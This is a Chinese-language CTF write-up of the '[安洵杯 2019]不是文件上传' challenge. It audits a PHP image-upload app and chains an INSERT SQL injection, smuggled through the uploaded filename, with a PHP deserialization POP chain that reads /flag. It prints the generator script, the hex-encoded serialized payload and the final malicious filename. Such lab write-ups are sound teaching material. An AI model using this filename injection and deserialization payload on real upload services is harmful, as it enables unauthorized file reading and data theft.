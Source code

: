 # \[安洵杯 2019]不是文件上传

## \[安洵杯 2019]不是文件上传

## 考点

* PHP代码审计
* SQL中的INSERT注入
* POP构造

## wp

先随便上传图片，提示上传成功并且图片的id为1

> Your images is uploaded successfully. And your image's id is 1.

在show.php中可以看到上传的图片信息，上传文件的名字被服务器做了加密，根据提示可以知道服务器只存储的图片名字，可能是在文件名那里注入，但是很多信息不知道。

在主页下面可以看到`Powered By wowouploadimage`，在GitHub上可以找到源码，要分析上传的逻辑

假设上传的文件是test.jpg，先看一下`helper::check` 函数的处理，`$info`相当于`$_FILES["file"]` 。

```php
	public function check($info)
	{
		$basename = substr(md5(time().uniqid()),9,16); // 16位随机字符串，假设是ffffffffffffffff
		$filename = $info["name"];  // 上传文件名
		$ext = substr(strrchr($filename, '.'), 1);  // 上传文件后缀名
	    $title = str_replace(".".$ext,'',$filename);  // 上传文件前缀名
	    return array('title'=>$title,'filename'=>$basename.".".$ext,'ext'=>$ext,'path'=>$this->folder.$basename.".".$ext);
	}
```

最后函数的返回是

```php
array('title'=>'test',
      'filename'=>'ffffffffffffffff.jpg',
      'ext'=>'jpg',
      'path'=>'pic/ffffffffffffffff.jpg');
```

然后回到`helper::uplaod` 函数的处理上传文件，按照上面的返回看

```php
	public function upload($input="file")
	{
		$fileinfo = $this->getfile($input);
		$array = array();
		$array["title"] = $fileinfo['title'];        // test
		$array["filename"] = $fileinfo['filename'];  // ffffffffffffffff.jpg
		$array["ext"] = $fileinfo['ext'];            // jpg
		$array["path"] = $fileinfo['path'];          // pic/ffffffffffffffff.jpg
		$img_ext = getimagesize($_FILES[$input]["tmp_name"]);
		$my_ext = array("width"=>$img_ext[0],"height"=>$img_ext[1]);  // 假设宽10 高20
		$array["attr"] = serialize($my_ext);   // a:2:{s:5:"width";i:10;s:6:"height";i:20;}
		$id = $this->save($array);
	}
```

然后看`helper::save`函数保存的逻辑，用了`INSERT`语句进行插入操作

```php
	public function insert_array($data)
	{	
		$con = mysqli_connect("127.0.0.1","root","root","pic_base");
		$sql_fields = array();
		$sql_val = array();
		foreach($data as $key=>$value){
			$key_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $key);
			$value_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $value);
			$sql_fields[] = "`".$key_temp."`";
			$sql_val[] = "'".$value_temp."'";
		}
		$sql = "INSERT INTO images (".(implode(",",$sql_fields)).") VALUES(".(implode(",",$sql_val)).")";
		mysqli_query($con, $sql);
		$id = mysqli_insert_id($con);
		mysqli_close($con);
		return $id;
	}
```

具体的语句是这样，其中title是可控的，那就可以插入任意数据

```sql
INSERT INTO images (`title`,`filename`,`ext`,`path`,`attr`) 
VALUES ('test','ffffffffffffffff.jpg','jpg','pic/ffffffffffffffff.jpg','a:2:{s:5:"width";i:10;s:6:"height";i:20;}')
```

再看看show.php，会直接执行`show::Get_All_Images`这个函数，然后对`attr`的数据进行反序列化

```php
	public function Get_All_Images(){
		$sql = "SELECT * FROM images";
		$result = mysqli_query($this->con, $sql);
		if ($result->num_rows > 0){
		    while($row = $result->fetch_assoc()){
		    	if($row["attr"]){
		    		$attr_temp = str_replace('\0\0\0', chr(0).'*'.chr(0), $row["attr"]);
				$attr = unserialize($attr_temp);
				}}}mysqli_close($this->con);}
```

再看helper类的`__destruct` 和`view_files` 函数，刚好可以构成反序列化链

```php
class helper {	
public function view_files($path){
		if ($this->ifview == False){
			return False;
		}
		$content = file_get_contents($path);
		echo $content;
	}
	function __destruct(){
		$this->view_files($this->config);
	}
}
```

这就连在一起了，接下来构造反序列化就可以

```sql
INSERT INTO images (`title`,`filename`,`ext`,`path`,`attr`) 
VALUES ('test','ffffffffffffffff.jpg','jpg','pic/ffffffffffffffff.jpg','paylaod')#','ffffffffffffffff.jpg','jpg','pic/ffffffffffffffff.jpg','a:2:{s:5:"width";i:10;s:6:"height";i:20;}')
```

```php
<?php
class helper {
	protected $ifview = True; 
	protected $config = "/flag";
}
echo bin2hex(serialize(new helper()));
// 4f3a363a2268656c706572223a323a7b733a393a22002a00696676696577223b623a313b733a393a22002a00636f6e666967223b733a353a222f666c6167223b7d
```

由于属性是`protected` 所以是有不可见字符的，但是在POST传输不会对内容进行URL解码，所以要用SQL可以自动转码的hex编码，用bin2hex函数，最后的语句如下

```sql
INSERT INTO images (`title`,`filename`,`ext`,`path`,`attr`) 
VALUES ('1','1','1','1',0x4f3a363a2268656c706572223a323a7b733a393a22002a00696676696577223b623a313b733a393a22002a00636f6e666967223b733a353a222f666c6167223b7d)#','ffffffffffffffff.jpg','jpg','pic/ffffffffffffffff.jpg','a:2:{s:5:"width";i:10;s:6:"height";i:20;}')
```

上传文件，filename改成`1','1','1','1',0x4f3a363a2268656c706572223a323a7b733a393a22002a00696676696577223b623a313b733a393a22002a00636f6e666967223b733a353a222f666c6167223b7d)#.jpg` ，再访问show.php即可

![](../../.gitbook/assets/5x2X7pwlQ6VgmF1qunsvyjvGeLwEBArz1NxdFyNozP4.png)

## 小结

1. PHP反序列化和SQL结合时要注意一下编码问题，如果URL编码不行要试试hex
2. 代码审计搞明白每一段代码作用
